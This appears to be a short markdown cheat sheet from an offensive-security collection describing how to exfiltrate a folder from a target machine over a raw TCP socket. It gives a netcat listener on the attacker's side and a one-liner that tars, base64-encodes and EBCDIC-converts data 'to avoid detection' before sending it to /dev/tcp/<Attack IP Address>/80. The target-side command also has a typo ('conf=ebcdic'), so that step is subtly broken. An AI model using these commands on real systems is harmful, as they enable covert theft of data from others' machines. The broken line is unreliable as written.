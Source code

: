 # Data Exfiltration
### Exfiltrate over TCP Socket with EBCDIC and Base64
##### Establish listener on attack machine and output to file.
```bash
nc -lnvp 80 > datafolder.tmp
```
##### From target, tar folder container efil data with Base64 & EBCDIC (to avoid detection) and redirect STDOUT to TCP socket.
```bash
tar zcf - /tmp/datafolder | base64 | dd conf=ebcdic > /dev/tcp/<Attack IP Address>/80
```
##### From attack machine, decode and extract archive.
```bash
dd conv=ascii if=/tmp/datafolder.tmp | base64 -d > datafolder.tar
tar xf datafolder.tar
```
### Data Exfiltration References
[Base64](https://en.wikipedia.org/wiki/Base64)

[EBCDIC](https://en.wikipedia.org/wiki/EBCDIC)

[I/O Redirection](http://www.tldp.org/LDP/abs/html/io-redirection.html)